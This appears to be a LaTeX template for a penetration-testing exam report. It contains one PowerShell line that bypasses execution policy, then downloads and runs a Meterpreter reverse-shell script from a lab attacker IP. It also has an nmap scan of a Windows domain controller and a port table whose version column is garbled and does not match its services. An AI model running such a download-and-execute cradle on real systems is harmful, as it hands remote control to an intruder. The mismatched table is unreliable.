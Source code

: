 \documentclass[11pt, a4paper]{article}
\begin{document}
EXAM BEGIN HERE


\begin{lstlisting}[frame=single]
    # Comment
    powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/meterpreter_shellcode_reverse.ps1')"
\end{lstlisting}

Link to \href{https://www.exploit-db.com/}{Exploit} code



\begin{verbatim}
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos 
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP 
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
\end{verbatim}

\newpage

Open ports and relative Services/Banner for \textbf{10.10.0.14}:

\begin{center}
    \begin{tabular}{||c c c||} 
     \hline
     PORT & SERVICE & VERSION\\ [0.5ex] 
     \hline\hline
     21/tcp & ftp & Microsoft Windows Kerberos\\ 
     25/tcp & smtp & Microsoft Windows RPC over HTTP 1.0\\
     80/tcp  & http & Microsoft Windows RPC over HTTP 1.0\\
     135/tcp & msrpc & Microsoft Windows RPC over HTTP 1.0\\
     139/tcp & netbios-ssn & Microsoft Windows netbios-ssn\\
     443/tcp & https & Microsoft Windows RPC over HTTP 1.0\\
     445/tcp & microsoft-ds & Microsoft Windows RPC over HTTP 1.0\\
     1025/tcp & NFS-or-IIS & Microsoft Windows Active Directory LDAP\\
     1026/tcp & LSA-or-nterm & Microsoft Windows RPC\\
     5800/tcp & vnc-http & .NET Message Framing\\[1ex]
     \hline
    \end{tabular}
\end{center}
\end{document}
